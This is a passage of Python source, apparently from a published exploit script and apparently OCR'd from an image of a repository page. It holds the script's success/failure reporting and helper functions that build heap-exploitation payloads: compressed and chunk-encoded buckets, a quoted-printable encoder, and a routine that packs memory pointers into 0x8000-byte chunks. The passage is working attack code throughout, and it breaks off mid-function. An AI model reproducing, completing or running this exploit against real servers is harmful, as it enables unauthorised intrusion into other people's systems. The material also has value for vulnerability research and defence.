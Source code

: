 ```python
        except (ConnectionError, ChunkedEncodingError):
            pass
        
        msg_print()
        
        if not self.sleep:
            msg_print("    [b white on black] EXPLOIT [/][b white on green] SUCCESS [/] [i](probably)[/]")
        elif start + self.sleep <= time.time():
            msg_print("    [b white on black] EXPLOIT [/][b white on green] SUCCESS [/]")
        else:
            # Wrong heap, maybe? If the exploited suggested others, use them!
            msg_print("    [b white on black] EXPLOIT [/][b white on red] FAILURE [/]")
        
        msg_print()


def compress(data) -> bytes:
    """Returns data suitable for `zlib.inflate`.
    """
    # Remove 2-byte header and 4-byte checksum
    return zlib.compress(data, 9)[2:-4]


def b64(data: bytes, misalign=True) -> bytes:
    payload = base64.encode(data)
    if not misalign and payload.endswith("="):
        raise ValueError(f"Misaligned: {data}")
    return payload.encode()


def compressed_bucket(data: bytes) -> bytes:
    """Returns a chunk of size 0x8000 that, when dechunked, returns the data."""
    return chunked_chunk(data, 0x8000)


def qpe(data: bytes) -> bytes:
    """Emulates quoted-printable-encode.
    """
    return "".join(f"={x:02x}" for x in data).upper().encode()


def ptr_bucket(*ptrs, size=None) -> bytes:
    """Creates a 0x8000 chunk that reveals pointers after every step has been ran."""
    if size is not None:
        assert len(ptrs) * 8 == size
    bucket = b"".join(map(p64, ptrs))
    bucket = qpe(bucket)
    bucket = chunked_chunk(bucket)
    bucket = chunked_chunk(bucket)
    bucket = chunked_chunk(bucket)
    bucket = compressed_bucket(bucket)

    return bucket


def chunked_chunk(data: bytes, size: int = None) -> bytes:
    """Constructs a chunked representation of the given chunk. If size is given, the
    chunked representation has size `size`.
    For instance, `ABCD` with size 10 becomes: `0004\nABCD\n`.
    """
    # The caller does not care about the size: let's just add 8, which is more than
    # enough
```